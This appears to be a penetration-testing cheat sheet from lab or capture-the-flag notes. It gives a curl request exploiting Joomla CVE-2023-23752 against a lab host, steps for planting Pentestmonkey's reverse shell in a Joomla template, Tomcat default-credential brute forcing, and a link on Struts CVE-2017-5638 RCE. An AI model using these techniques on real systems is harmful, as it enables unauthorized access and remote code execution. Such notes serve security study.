 ![](photos/Pasted%20image%2020231228200147.png)

###### CVE-2023-23752  (4.0.0 through 4.2.7)

```bash
curl "http://dev.devvortex.htb/api/index.php/v1/config/application?public=true" | jq .
```

Login in to Admin dashboard , and click the **System** Left 
![](photos/Pasted%20image%2020240206150945.png)

Edit index.php  , Pentestmonkey's reverse shell



### TOMCAT 

Password Crack (burpsuite)
```
Directory: Seclists\Passwords\Default-Credentials\tomcat-betterdefaultpasslist_base64encoded.txt
```

- **Apache Struts 2.3.x （2.3.15） Showcase RCE**
https://medium.com/@lucideus/exploiting-apache-struts2-cve-2017-5638-lucideus-research-83adb9490ede

